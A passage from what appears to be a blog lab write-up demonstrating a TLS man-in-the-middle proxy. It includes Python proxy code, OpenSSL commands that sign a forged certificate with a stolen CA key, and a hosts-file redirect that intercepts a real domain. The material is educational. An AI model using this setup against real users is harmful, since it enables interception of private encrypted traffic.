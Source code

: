 ```python
# Start the proxy and listen for connections on port 443
hostname = sys.argv[1]
context_svr = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context_svr.load_cert_chain(PROXY_CERT, PROXY_PRVTKEY)
sock_listen = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
sock_listen.bind(('0.0.0.0', 443))
sock_listen.listen(5)
    
while True:
    sock_browser, fromaddr = sock_listen.accept()
    try:
        ssock_browser = context_svr.wrap_socket(sock_browser,server_side=True)
    except Exception as error:
        print("TLS connection fails")
        print(error)
        continue
        
    print("TLS connection established")
    x = threading.Thread(target=process_request, args=(ssock_browser, hostname))
    x.start()
```

__proxy_openssl.cnf__

```
[ req ]
prompt = no
distinguished_name = req_distinguished_name

[ req_distinguished_name ]
C = NG
ST = Lagos
CN = MITM Proxy
```

__Generate Certificate Signing Request for the Proxy__

```bash
openssl req -newkey rsa:2048  -config ./proxy_openssl.cnf -batch -sha256 -keyout proxy_key.pem -out proxy_csr.pem
```

__Use Stolen CA's credentials to Create a Certificate for the Proxy__

```bash
openssl ca -md sha256 -days 3650 -batch -in proxy_csr.pem -out proxy_crt.pem -cert ca_crt.pem -keyfile ca_key.pem -policy policy_anything
```

Finally copy the created proxy_crt.pem and proxy_key.pem to the proxy-certs folder.

Before going on to test the proxy, I have to add the host I want to intercept to the host file of the machine to simulate one of the following attacks: DNS attacks, BGP attacks, or other redirection attacks.

The host I am intercepting is `eocdemo.solarwinds.com`

From the screenshot below, the MITM attack is successful

![task-3](https://github.com/iukadike/blog/assets/58455326/ef60d33c-249a-49a7-a444-f1405edba485)


<br>

Thanks for reading...



  



